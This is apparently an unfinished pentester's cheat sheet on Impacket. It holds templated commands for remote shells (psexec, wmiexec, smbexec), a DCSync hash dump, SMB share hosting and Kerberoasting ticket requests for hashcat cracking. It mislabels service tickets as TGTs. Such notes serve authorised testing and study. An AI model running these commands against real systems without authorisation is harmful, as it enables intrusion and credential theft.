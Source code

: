 Impacket is a suite of tools that is massively useful when compromising Windows hosts.

# Impacket-PSExec
```shell
impacket-psexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via PsExec (if user has local administrator rights). Requires transferring a binary to the target machine.
```

# Impacket-WMIExec
```shell
impacket-wmiexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via Windows Management Instrumentation. 
```
WMIExec is marginally more stealthy than PSExec but it has WMI as an obvious prerequisite. 

# Impacket-SMBExec
```shell
impacket-smbexec <domain>/<user>:<pass>@<IP> # Get a shell on the target machine via SMB named pipes without transferring a binary.
```
# Impacket-SecretsDump
```shell
impacket-secretsdump -outputfile <hashes outfile> -just-dc <domain>/<user>@<DC_IP> # Perform DCSync attack against a domain controller with Domain Admin credentials or other user creds with DCSync rights. 

-just-dc-user # If we want a specific user
-history # If we want to find password history 
-user-status # Tells if a user is disabled
```

# Impacket-SMBServer
```shell
impacket-smbserver -smb2support -username <user to auth> -password <password to auth> <share name> <share location> # Open an SMB share serving <share location> as <share name>
```

# Impacket-GetUserSPNs
```shell
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> # List SPN accounts
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request # Request all TGTs. 
impacket-GetUserSPNs -dc-ip <DC_IP> <domain>/<user> -request-user <SPN> -outputfile out-tgt # Request one TGT and save
```
The `out-tgt` can be cracked with hashcat mode 13100. 

# Impacket-raiseChild
TODO: Write this

# Impacket-ticketer
TODO: Write this

# Impacket-lookupsid
TODO: Write this

# Impacket-mssqlclient
TODO: Write this
# Resources
https://cicada-8.medium.com/impacket-developer-guide-part-1-rpc-4df4fe6d79d7